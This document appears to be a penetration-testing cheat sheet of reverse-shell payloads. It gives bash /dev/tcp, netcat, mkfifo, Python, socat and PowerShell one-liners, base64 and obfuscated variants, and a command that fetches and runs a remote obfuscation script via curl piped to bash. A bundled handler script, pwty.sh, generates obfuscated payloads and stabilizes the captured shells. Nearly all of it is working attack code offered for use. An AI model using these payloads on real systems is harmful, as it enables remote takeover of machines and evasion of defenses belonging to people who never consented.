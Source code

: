 # Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}

{% tab title="Obfuscated" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
bash <(curl -s https://raw.githubusercontent.com/villalbanico9/H4Ts/main/Tools/Reverse%20Shells/obfuscate_ps_reverse_tcp.sh) <ip> [<port>]
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script /dev/null -qc /bin/bash
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

I created this script which sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

<details>

<summary>pwty.sh</summary>

{% code overflow="wrap" %}
```bash
#!/bin/bash

ip="$(hostname -i | awk '{print $NF}')"
platform="Linux"

usage() {
  echo "Usage: $0 -p <port> [-i <ip>] [-P <platform>]"
  echo "  -p, --port         Port (required)"
  echo "  -i, --ip           IP address"
  echo "  -m, --platform     Platform (linux or windows)"
  echo "  -h, --help         Show this help message and exit"
  exit 1
}

listen() {
  echo -e "[*] Listening on $ip:$port for $platform connection...\n"
  if [ $platform == "Windows" ]; then
    obfuscated_string='$client  = nEW`-obj`eCT Sy`ST`eM.neT.s`OC`K`eT`s`.TcPCLIe`Nt(  "$ip",$port  )  ; $stream  =  $client.GetStream(  )  ; [byte[]]$bytes =   0..65535|%{0} ;while(( $i   =   $stream.Read($bytes, 0, $bytes.Length  )) -ne 0){ ;  $data = ( NeW-o`B`jecT -TypeName S`ySTE`M.text`.As`c`IIENCOdI`NG  ).GetString($bytes,0, $i ) ; $sendback =   (  I`ex $data 2>&1   |   o`U`T-STrINg   ) ;$sendback2  =   $sendback +   "PS "   +   ( P`wD ).Path  + "> " ; $sendbyte   =  ([text.encoding]::ASCII).GetBytes( $sendback2)  ;$stream.Write($sendbyte,0,$sendbyte.Length );$stream.Flush( )} ; $client.Close(   )'
    obfuscated_command=$(echo "$obfuscated_string" | sed "s/\$ip/$ip/" | sed "s/\$port/$port/" | iconv -t UTF-16LE | base64 -w 0)
    payload="powershell -e $obfuscated_command"
    echo -e "[+] Payload copied to clipboard:\n$payload\n"
    echo -n $payload | xclip -sel clip
    stty intr '' && rlwrap -c -a -i -r -A -D 2 -H /usr/share/rlwrap/history -s 1000 -b "\'\"\\\," -q "\"'" -pBlue -e "" -f . nc -nlvp "$port"; stty intr \^c
  else
    payload=$(echo "echo $(echo -e "bash -c \"bash -i >& /dev/tcp/$ip/$port 0>&1\" & disown" | base64 -w 0 | base64 -w 0) | base64 -d | base64 -d | bash")
    echo -e "[+] Payload copied to clipboard:\n$payload\n"
    echo -n $payload | xclip -sel clip
    (echo 'script -qc /bin/bash /dev/null' && echo "export TERM=xterm && export SHELL=/bin/bash && stty $(stty -a | grep -oP 'rows [0-9]+; columns [0-9]+' | tr -d ';')" && stty raw -echo && /bin/cat; stty sane) | nc -nlvp $port
    fi
}

if [ $# -eq 0 ]; then
  usage
fi

while [[ "$#" -gt 0 ]]; do
  case $1 in
    -p|--port)
      port="$2"
      shift 2
      ;;
    -i|--ip)
      ip="$2"
      shift 2
      ;;
    -m|--platform)
      case "$2" in
        l|lin|linux)
          platform="Linux"
          ;;
        w|win|windows)
          platform="Windows"
          ;;
        *)
          echo "Error: Invalid platform. Must be linux or windows."
          exit 1
          ;;
      esac
      shift 2
      ;;
    -h|--help)
      usage
      ;;
    *)
      echo "Error: Unknown option $1"
      usage
      ;;
  esac
done

if [ -z "$port" ]; then
  echo "Error: Port is required."
  usage
fi

listen
```
{% endcode %}

</details>
